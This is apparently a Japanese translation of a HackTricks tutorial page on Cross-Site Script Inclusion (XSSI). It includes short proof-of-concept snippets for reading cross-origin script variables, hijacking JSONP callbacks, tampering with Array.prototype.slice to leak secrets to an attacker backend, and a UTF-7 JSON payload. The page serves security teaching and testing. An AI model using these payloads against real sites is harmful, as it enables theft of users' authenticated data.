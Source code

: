 # XSSI (Cross-Site Script Inclusion)

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}


## 基本情報

**クロスサイトスクリプトインクルージョン (XSSI)** は、HTMLの `script` タグの性質から生じる脆弱性です。ほとんどのリソースが **同一オリジンポリシー (SOP)** の対象であるのに対し、スクリプトは異なるドメインから含めることができます。この動作は、異なるサーバーにホストされているライブラリや他のリソースの使用を促進することを目的としていますが、潜在的なセキュリティリスクも引き起こします。

### **XSSI** の主な特徴:
- **SOPのバイパス**: スクリプトは **同一オリジンポリシー** の対象外であり、異なるドメイン間で含めることができます。
- **データの露出**: 攻撃者はこの動作を利用して、`script` タグを介して読み込まれたデータを読み取ることができます。
- **動的JavaScript/JSONPへの影響**: **XSSI** は特に動的JavaScriptや **JSON with Padding (JSONP)** に関連しています。これらの技術は、認証のために「環境権限」情報（クッキーなど）を使用することがよくあります。異なるホストへのスクリプトリクエストが行われると、これらの資格情報（例：クッキー）が自動的にリクエストに含まれます。
- **認証トークンの漏洩**: 攻撃者がユーザーのブラウザを騙して、自分が制御するサーバーからスクリプトをリクエストさせることができれば、これらのリクエストに含まれる機密情報にアクセスできる可能性があります。

### タイプ

1. **静的JavaScript** - これはXSSIの従来の形式を表します。
2. **認証付き静的JavaScript** - このタイプは、アクセスするために認証が必要であるため、異なります。
3. **動的JavaScript** - コンテンツを動的に生成するJavaScriptを含みます。
4. **非JavaScript** - JavaScriptを直接含まない脆弱性を指します。

**以下の情報は [https://www.scip.ch/en/?labs.20160414](https://www.scip.ch/en/?labs.20160414) の要約です**。詳細については確認してください。


### 通常のXSSI
このアプローチでは、プライベート情報がグローバルにアクセス可能なJavaScriptファイルに埋め込まれています。攻撃者は、ファイルの読み取り、キーワード検索、または正規表現などの方法を使用してこれらのファイルを特定できます。特定されたら、プライベート情報を含むスクリプトを悪意のあるコンテンツに含めることができ、機密データへの不正アクセスを可能にします。以下に例示的な悪用技術を示します:
```html
<script src="https://www.vulnerable-domain.tld/script.js"></script>
<script> alert(JSON.stringify(confidential_keys[0])); </script>
```
### Dynamic-JavaScript-based-XSSI と Authenticated-JavaScript-XSSI
これらのタイプの XSSI 攻撃は、ユーザーのリクエストに応じて機密情報が動的にスクリプトに追加されることを含みます。検出は、クッキーありとなしでリクエストを送信し、レスポンスを比較することで行うことができます。情報が異なる場合、機密情報が存在する可能性を示すことがあります。このプロセスは、[DetectDynamicJS](https://github.com/luh2/DetectDynamicJS) Burp 拡張機能のようなツールを使用して自動化できます。

機密データがグローバル変数に格納されている場合、通常の XSSI で使用されるのと同様の方法を使用して悪用することができます。ただし、機密データが JSONP レスポンスに含まれている場合、攻撃者はコールバック関数をハイジャックして情報を取得することができます。これは、グローバルオブジェクトを操作するか、JSONP レスポンスによって実行される関数を設定することで行うことができます。以下に示します:
```html
<script>
var angular = function () { return 1; };
angular.callbacks = function () { return 1; };
angular.callbacks._7 = function (leaked) {
alert(JSON.stringify(leaked));
};
</script>
<script src="https://site.tld/p?jsonp=angular.callbacks._7" type="text/javascript"></script>
```

```html
<script>
leak = function (leaked) {
alert(JSON.stringify(leaked));
};
</script>
<script src="https://site.tld/p?jsonp=leak" type="text/javascript"></script>
```
グローバル名前空間に存在しない変数に対しては、*prototype tampering*が時々悪用されることがあります。この技術は、呼び出されたプロパティを見つけるためにプロトタイプチェーンをたどるコード解釈を含むJavaScriptの設計を利用します。`Array`の`slice`のような特定の関数をオーバーライドすることで、攻撃者は非グローバル変数にアクセスし、漏洩させることができます：
```javascript
Array.prototype.slice = function(){
// leaks ["secret1", "secret2", "secret3"]
sendToAttackerBackend(this);
};
```
さらなる攻撃ベクターの詳細は、セキュリティ研究者 [Sebastian Lekies](https://twitter.com/slekies) の研究に見られ、彼は [ベクター](http://sebastian-lekies.de/leak/) のリストを維持しています。

### Non-Script-XSSI
寺田武の研究は、CSVのようなNon-Scriptファイルが`script`タグのソースとして含まれることによってクロスオリジンで漏洩する別の形式のXSSIを紹介しています。2006年のジェレミー・グロスマンによる完全なGoogleアドレス帳を読み取る攻撃や、2007年のジョー・ウォーカーによるJSONデータ漏洩など、XSSIの歴史的な事例は、これらの脅威の深刻さを浮き彫りにしています。さらに、ギャレス・ヘイズは、特定のブラウザで効果的なJSON形式から脱出し、スクリプトを実行するためにUTF-7エンコードされたJSONを使用する攻撃のバリアントを説明しています。
```javascript
[{'friend':'luke','email':'+ACcAfQBdADsAYQBsAGUAcgB0ACgAJwBNAGEAeQAgAHQAaABlACAAZgBvAHIAYwBlACAAYgBlACAAdwBpAHQAaAAgAHkAbwB1ACcAKQA7AFsAewAnAGoAbwBiACcAOgAnAGQAbwBuAGU-'}]
```

```html
<script src="http://site.tld/json-utf7.json" type="text/javascript" charset="UTF-7"></script>
```
{% hint style="success" %}
AWSハッキングを学び、実践する：<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
GCPハッキングを学び、実践する：<img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricksをサポートする</summary>

* [**サブスクリプションプラン**](https://github.com/sponsors/carlospolop)を確認してください！
* **💬 [**Discordグループ**](https://discord.gg/hRep4RUj7f)または[**テレグラムグループ**](https://t.me/peass)に参加するか、**Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**をフォローしてください。**
* **ハッキングのトリックを共有するには、[**HackTricks**](https://github.com/carlospolop/hacktricks)と[**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud)のGitHubリポジトリにPRを送信してください。**

</details>
{% endhint %}
